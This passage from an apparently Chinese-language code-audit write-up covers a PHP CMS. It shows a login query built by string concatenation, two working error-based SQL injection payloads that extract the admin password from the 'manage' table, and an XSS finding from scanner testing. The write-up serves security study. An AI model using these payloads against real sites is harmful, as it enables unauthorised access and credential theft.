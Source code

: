 这里有个bug，把`require '../inc/conn.php';`改为`require '../../inc/conn.php';`才能正常运行，估计是程序员没写好，在第十行有一处SQL语句如下：
```php
$query = "SELECT * FROM manage WHERE user='$user'";
```

这里可以用报错注入来爆出密码，也可用延时注入(可以结合xray黑盒测试出)
```
1' or updatexml(1,concat((select concat(0x7e,password) from manage)),0) #
1' or updatexml(1,concat((select concat(password,0x7e) from manage)),0) #
```

用phpstorm xdebug跑一下观看流程原理。

![image](./img/xhcms4.png)

![image](./img/xhcms5.png)

可以看出在第11行将报错注入的语句带到数据库查询触发语句。由于md5返回的值只有27位，需要拼接两次语句。


## XSS漏洞 && SQL注入漏洞

接着结合xray黑盒测试在前台点一点，发现在菜单下载一栏爆出xss漏洞。

![image](./img/xhcms6.png)
